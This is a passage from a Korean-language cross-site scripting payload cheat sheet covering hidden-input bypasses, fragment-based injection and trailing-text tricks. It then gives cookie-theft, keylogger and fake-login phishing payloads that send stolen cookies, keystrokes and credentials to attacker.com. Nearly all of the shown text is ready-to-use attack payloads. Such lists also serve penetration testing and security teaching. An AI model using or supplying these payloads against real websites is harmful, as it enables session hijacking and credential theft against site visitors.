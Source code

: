 ### 3.12. 특수 상황별 페이로드

#### 3.12.1. type=hidden 우회
```html
<!-- type이 앞에 있는 경우 -->
"><img src=x onerror=alert('XSS')>

<!-- type을 덮어쓰는 경우 -->
" type="text" onfocus="alert('XSS')" autofocus="

<!-- accesskey 활용 -->
<input type="hidden" accesskey="X" onclick="alert('XSS')" value="Press Alt+X">
```

#### 3.12.2. 문자열 끝에 추가 텍스트가 있는 경우
```html
<script>alert('XSS')</script><!--
<img src=x onerror=alert('XSS')>//
<svg onload=alert('XSS')>/*comment*/
```

#### 3.12.3. URL Fragment (#) 기반
```html
<!-- 페이지에서 location.hash 사용 시 -->
http://example.com/page#<script>alert('XSS')</script>
http://example.com/page#<img src=x onerror=alert('XSS')>
```

### 3.13. 쿠키 탈취 페이로드
```html
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
<img src=x onerror="new Image().src='http://attacker.com/steal?cookie='+document.cookie">
<svg onload="location='http://attacker.com/steal?cookie='+document.cookie">
```

### 3.14. 키로거 페이로드
```html
<script>
document.addEventListener('keydown', function(e) {
    fetch('http://attacker.com/keylog?key=' + e.key);
});
</script>
```

### 3.15. 피싱 페이로드
```html
<script>
document.body.innerHTML = '<form action="http://attacker.com/phish"><input placeholder="Password"><button>Login</button></form>';
</script>
```

---
